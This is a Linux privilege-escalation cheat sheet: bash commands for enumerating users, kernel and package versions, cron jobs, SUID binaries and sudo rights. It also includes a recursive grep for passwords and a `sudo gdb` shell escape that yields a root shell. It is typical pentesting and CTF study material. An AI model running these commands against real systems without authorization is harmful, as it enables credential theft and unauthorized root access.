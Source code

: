 ### User and Group Enumeration
```bash
id
```

**To inspect which groups your user is a part of**
```bash
groups
```

#### Operating System and Software
**Distribution and Version**
```bash
cat /etc/issue
cat /etc/*-release
```

**Kernel Version**
```bash
cat /proc/version
uname -a
```

**Applications Installed**
```bash
ls -alh /usr/bin/
ls -alh /sbin/
dpkg -l
```

#### Cronjobs
```bash
`crontab -l`  
`ls -alh /var/spool/cron`  
`ls -al /etc/ | grep cron`  
`ls -al /etc/cron*`  
`cat /etc/cron*`  
`cat /etc/at.allow`  
`cat /etc/at.deny`  
`cat /etc/cron.allow`  
`cat /etc/cron.deny`  
`cat /etc/crontab`  
`cat /etc/anacrontab`  
`cat /var/spool/cron/crontabs/root`
```

#### SUID Binaries
```
find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld {} \; 2>/dev/null
```

#### Users
```
sudo -l
```

#### Check for `.ssh` folder for Private keys
**If there are multiple users**
```bash
ls -al user1 user2 user3
```

**If single user**
```bash
ls -al user
```

#### Check the PAM Configuration File
```bash
cat /etc/pam.d/su
```

### Environment Variables
A shell's behaviour is stored in an environment. Environment variables are the variables that define the current shell session environment. They affect various aspects of a system, including processes and programs. 

**Check the current environment variables**
```bash
env || set
```

### Root Permissions
**List all the commands that the current user has access to perform as root**
```bash
sudo -l
```

### Abusing Sudo Permissions
If you find a binary `e.g., (gdb)` that you can run as root, there's a chance that you can abuse this privilege. 
```bash
sudo gdb -nx -ex '!sh' -ex quit
```

### Vulnerable software
**Check installed software**
```bash
dpkg -l
```

### Passwords
```
grep -ri 'password' /home/user
```

### Weak File Permissions
```bash
ls -al /etc/passwd
```

**Find a binary that is `Writable` and `Executable` by the current user**
```
find / -type f -writable -executable 2>/dev/null
```



